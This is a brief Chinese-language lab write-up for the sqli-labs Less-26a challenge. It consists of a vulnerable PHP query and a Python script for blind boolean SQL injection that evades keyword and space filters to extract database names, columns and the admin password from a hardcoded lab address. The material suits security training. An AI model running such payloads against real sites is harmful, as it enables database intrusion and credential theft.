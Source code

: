 Description: GET / Blind based / All your SPACE and COMMENTS Belong to us / String-single-quotes / Parenthesis

在上一题的基础上修该闭合方式为`('$id')`，同时关闭了错误回显。

```php
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
```

Payload:

```python
# -*- coding: utf-8 -*-
import re
import requests
from urllib.parse import quote_plus

main_url = 'http://43.247.91.228:84/Less-26a/?id='

correct = r'Your Password:Dumb'

# payload
cur_db_name_ = '2333\') || ascii(substr((select database()), %d, 1))%s(\'%d'
cur_db_tabs_ = '2333\') || ascii(substr((select group_concat(table_name) '\
    'from infoorrmation_schema.tables '\
        'where table_schema=database()), %d, 1))%s(\'%d'
columns_ = '2333\') || ascii(substr((select group_concat(column_name) '\
    'from infoorrmation_schema.columns '\
        'where table_schema=database() '\
            'anandd table_name=\'users\'), %d, 1))%s(\'%d'
password_ = '2333\') || ascii(substr((select passwoorrd '\
    'from users where username=\'admin\'),%d,1))%s(\'%d'

def check(query_string):
    query_string = query_string.replace(' ', '%a0')
    #print(query_string)
    url = main_url + query_string
    html = requests.get(url)
    if correct in html.text:
        return True
    return False

def search(payload):
    print('[*]' + payload)
    result = ''
    print('[~]', end = '')
    for i in range(1, 100):
        left = 33
        right = 127
        #binary search
        while left <= right:
            mid = (left + right) // 2
            s = payload % (i, '=', mid)
            if check(s):
                result += chr(mid)
                print(chr(mid), end = '')
                break
            else:
                s = payload % (i, '>', mid)
                if check(s):
                    left = mid + 1
                else:
                    right = mid - 1
        if left > right:
            break
    print()
```